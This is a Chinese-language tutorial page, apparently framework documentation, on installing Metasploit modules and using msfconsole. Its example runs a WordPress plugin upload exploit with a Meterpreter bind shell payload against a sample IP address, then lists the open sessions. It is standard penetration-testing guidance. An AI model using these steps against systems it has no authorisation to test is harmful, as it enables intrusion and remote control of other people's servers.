







使用流程¶
将开放的模块放置metasploit安装目录的apps/pro/msf3/modules目录下，辅助模块放置在auxiliary目录下，利用模块放置在exploits目录下。
启动运行环境
msfconsole
运行环境启动完成
如果运行环境正确启动，会看到类似效果:
查找提交的模块
命令:
search
示例:
search wp_property_upload_exec
效果:
使用模块
命令:
use
示例:
use exploit/unix/webapp/wp_property_upload_exec
效果:
查看该模块的配置信息
命令:
show
示例:
show options
效果:
或者使用命令 info 查看该模块更详细的信息
示例:
设置参数
命令:
set
示例:
set RHOST 192.168.0.110
效果:
指定PAYLOAD
在设置该模块的PAYLOAD之前需要查看该模块可用的PAYLOAD有哪些，可使用命令 show payloads 查看，示例如下:
.. image:: image/1.4.9.png
从所列出的PAYLOAD中选择自己熟悉的PAYLOAD使用
命令:
set PAYLOAD
示例:
set PAYLOAD php/meterpreter/bind_tcp
效果:
PAYLOAD指定之后需要对PAYLOAD的参数进行相关设置，此处不再列举
运行模块
命令:
exploit 或 run
其它常用命令
查看会话
sessions -l
指定会话
sessions -i
注解
此文档未列出获取会话之后所需要的操作命令，用户可在会话终端下通过help命令进行了解。